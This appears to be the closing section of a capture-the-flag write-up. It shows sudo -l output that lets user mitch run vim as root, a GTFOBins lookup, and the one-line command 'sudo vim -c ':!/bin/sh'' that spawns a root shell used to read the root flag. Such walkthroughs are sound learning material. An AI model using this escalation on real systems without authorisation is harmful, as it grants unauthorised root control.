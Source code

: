 ``` python
[redacted]
```
---

```r
$ sudo -l 
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$ 
```

---
> :warning:  **What can you leverage to spawn a privileged shell?**
>[color=red]

``
answer:
``

``` pyth
vim
```

---
## prevEsc

go to ``https://gtfobins.github.io/``

search for ``vim``

![gtf](https://hackmd.io/_uploads/SJmV1Hpi1l.png)


```pyth
sudo vim -c ':!/bin/sh'
```
``output``

```
$ sudo vim -c ':!/bin/sh'

# whoami
root
# cat /root/root.txt
[redacted]
# 

```

> :warning:  **What's the root flag?**
>[color=red]

``
answer:
``

``` python
[redacted]
```

:::success
🎉 Rooted! The final flag is captured, and victory is mine! Another challenge conquered! 🚀🔥  
:::


<img src="https://media.giphy.com/media/11sBLVxNs7v6WA/giphy.gif" alt="Funny Monkey GIF" style="display: block; margin: auto;">



